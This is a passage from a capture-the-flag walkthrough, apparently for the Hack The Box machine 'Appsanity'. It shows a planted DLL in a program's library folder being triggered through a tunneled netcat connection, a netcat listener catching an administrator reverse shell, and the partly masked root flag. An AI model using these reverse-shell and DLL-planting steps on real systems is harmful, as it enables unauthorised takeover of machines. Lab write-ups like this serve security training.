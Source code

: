         Directory: C:\Program Files\ReportManagement\Libraries
    
    Mode                 LastWriteTime         Length Name
    ----                 -------------         ------ ----
    -a----          3/8/2024   9:19 AM           9216 externalupload.dll
    

#### Trigger

Now I’ll connect to the service over my Chisel tunnel and trigger it:

    
    
    oxdf@hacky$ rlwrap nc localhost 10000
    Reports Management administrative console. Type "help" to view available commands.
    ‌upload 0xdf
    Attempting to upload to external source.
    

It hangs, and there’s a shell as administrator:

    
    
    oxdf@hacky$ rlwrap -cAr nc -lvnp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.238 49268
    Microsoft Windows [Version 10.0.19045.3570]
    (c) Microsoft Corporation. All rights reserved.
    
    C:\Program Files\ReportManagement> whoami
    appsanity\administrator
    

And `root.txt`:

    
    
    C:\Users\Administrator\Desktop> type root.txt
    78eae46d************************
    

[](/2024/03/09/htb-appsanity.html)

